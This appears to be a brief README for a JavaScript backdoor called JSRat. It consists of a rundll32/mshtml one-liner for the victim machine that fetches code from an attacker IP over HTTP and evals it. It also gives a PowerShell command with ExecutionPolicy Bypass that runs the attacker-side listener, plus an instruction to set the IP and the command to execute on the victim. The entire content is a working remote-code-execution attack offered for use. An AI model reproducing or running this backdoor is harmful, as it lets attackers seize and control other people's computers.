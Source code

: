#Javascript Backdoor

http://en.wooyun.io/2016/01/18/JavaScript-Backdoor.html

##Victim machine

```rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}```


##Attacker machine

```powershell.exe -ExecutionPolicy Bypass -File JSRat.ps1```

##Important

Update the IP address in JSRat.ps1 (line 19) and the command to be executed on victim machine.
